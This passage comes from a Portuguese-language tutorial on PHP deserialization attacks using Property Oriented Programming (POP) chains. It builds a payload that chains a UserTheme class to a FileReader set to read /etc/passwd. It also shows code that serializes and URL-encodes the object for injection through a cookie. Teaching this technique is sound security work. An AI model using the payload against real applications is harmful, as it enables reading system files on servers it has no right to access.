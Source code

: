 que é muito parecida com o cenário anterior mas que tem uma particularidade.
Através da técnica de Property Oriented Programming fazemos o reuso de classes para que através de propriedades de classes seja possível um ataque como o anterior, nós literalmente pulamos de classe em classe e formamos um caminho válido até o pote de ouro :).

Podemos imaginar um cenário onde ainda temos nossa classe de `FileReader` mas que ela só possui o vetor `__toString`, e temos  em algum momento uma chamada de unserialize em nossos cookies, então um atacante pode se aproveitar de uma outra classe no sistema:

```php
<?php

class UserTheme {
    protected $extraThemes;
    
    public function extraThemes() {
        return 'User extra themes: ' . $this->extraThemes;
    }
}
```

A classe basicamente faz uso da propriedade `$this->extraThemes`.

Para criar o seguinte payload:

```php
<?php

namespace App {
    class FileReader {
        public function __construct()
        {
            $this->fileName = '/etc/passwd';
        }
    }

    class UserTheme {
        public function __construct()
        {
            $this->extraThemes = New FileReader();
        }
     }
}
```

Nós utilizamos a propriedade da classe `UserTheme` como caminho para a classe `FileReader` (Pop chain).
Agora basta serializar:

```php
obj = new App\UserTheme();
$serialized = serialize($obj);

$keys = str_split("%\x00\n\r\t+;");
$values = array_map('urlencode', $keys);
$serialized = str_replace($keys, $values, $serialized);
echo $serialized;
```
